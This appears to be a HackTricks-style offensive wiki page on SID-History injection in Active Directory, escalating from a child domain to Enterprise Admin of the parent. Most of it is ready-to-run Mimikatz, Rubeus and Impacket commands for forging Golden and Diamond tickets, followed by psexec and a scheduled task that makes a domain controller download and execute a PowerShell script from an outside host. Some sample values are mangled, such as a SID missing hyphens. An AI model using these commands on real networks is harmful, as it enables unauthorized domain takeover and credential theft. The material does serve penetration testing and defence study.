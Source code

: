 # SID-History Injection

{{#include ../../banners/hacktricks-training.md}}

## SID History Injection Attack

The focus of the **SID History Injection Attack** is aiding **user migration between domains** while ensuring continued access to resources from the former domain. This is accomplished by **incorporating the user's previous Security Identifier (SID) into the SID History** of their new account. Notably, this process can be manipulated to grant unauthorized access by adding the SID of a high-privilege group (such as Enterprise Admins or Domain Admins) from the parent domain to the SID History. This exploitation confers access to all resources within the parent domain.

Two methods exist for executing this attack: through the creation of either a **Golden Ticket** or a **Diamond Ticket**.

To pinpoint the SID for the **"Enterprise Admins"** group, one must first locate the SID of the root domain. Following the identification, the Enterprise Admins group SID can be constructed by appending `-519` to the root domain's SID. For instance, if the root domain SID is `S-1-5-21-280534878-1496970234-700767426`, the resulting SID for the "Enterprise Admins" group would be `S-1-5-21-280534878-1496970234-700767426-519`.

You could also use the **Domain Admins** groups, which ends in **512**.

Another way yo find the SID of a group of the other domain (for example "Domain Admins") is with:

```powershell
Get-DomainGroup -Identity "Domain Admins" -Domain parent.io -Properties ObjectSid
```

### Golden Ticket (Mimikatz) with KRBTGT-AES256

```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:<current_domain> /sid:<current_domain_sid> /sids:<victim_domain_sid_of_group> /aes256:<krbtgt_aes256> /startoffset:-10 /endin:600 /renewmax:10080 /ticket:ticket.kirbi" "exit"

/user is the username to impersonate (could be anything)
/domain is the current domain.
/sid is the current domain SID.
/sids is the SID of the target group to add ourselves to.
/aes256 is the AES256 key of the current domain's krbtgt account.
--> You could also use /krbtgt:<HTML of krbtgt> instead of the "/aes256" option
/startoffset sets the start time of the ticket to 10 mins before the current time.
/endin sets the expiry date for the ticket to 60 mins.
/renewmax sets how long the ticket can be valid for if renewed.

# The previous command will generate a file called ticket.kirbi
# Just loading you can perform a dcsync attack agains the domain
```

For more info about golden tickets check:

{{#ref}}
golden-ticket.md
{{#endref}}

### Diamond Ticket (Rubeus + KRBTGT-AES256)

```powershell
# Use the /sids param
Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

# Or a ptt with a golden ticket
Rubeus.exe golden /rc4:<krbtgt hash> /domain:<child_domain> /sid:<child_domain_sid>  /sids:<parent_domain_sid>-519 /user:Administrator /ptt

# You can use "Administrator" as username or any other string
```

For more info about diamond tickets check:

{{#ref}}
diamond-ticket.md
{{#endref}}

```bash
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
.\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'

gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

schtasks /create /S mcorp-dc.moneycorp.local /SC Weekely /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"
```

With the acquired permissions from the attack you can execute for example a DCSync attack in the new domain:

{{#ref}}
dcsync.md
{{#endref}}

### From linux

#### Manual with [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)

```bash
# This is for an attack from child to root domain
# Get child domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep "Domain SID"
# Get root domain SID
lookupsid.py <child_domain>/username@10.10.10.10 | grep -B20 "Enterprise Admins" | grep "Domain SID"

# Generate golden ticket
ticketer.py -nthash <krbtgt_hash> -domain <child_domain> -domain-sid <child_domain_sid> -extra-sid <root_domain_sid> Administrator

# NOTE THAT THE USERNAME ADMINISTRATOR COULD BE ACTUALLY ANYTHING
# JUST USE THE SAME USERNAME IN THE NEXT STEPS

# Load ticket
export KRB5CCNAME=hacker.ccache

# psexec in domain controller of root
psexec.py <child_domain>/Administrator@dc.root.local -k -no-pass -target-ip 10.10.10.10
```

#### Automatic using [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py)

This is an Impacket script which will **automate escalating from child to parent domain**. The script needs:

- Target domain controller
- Creds for an admin user in the child domain

The flow is:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain
- If the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

```bash
raiseChild.py -target-exec 10.10.10.10 <child_domain>/username
```

## References

- [https://adsecurity.org/?p=1772](https://adsecurity.org/?p=1772)
- [https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/](https://www.sentinelone.com/blog/windows-sid-history-injection-exposure-blog/)

{{#include ../../banners/hacktricks-training.md}}


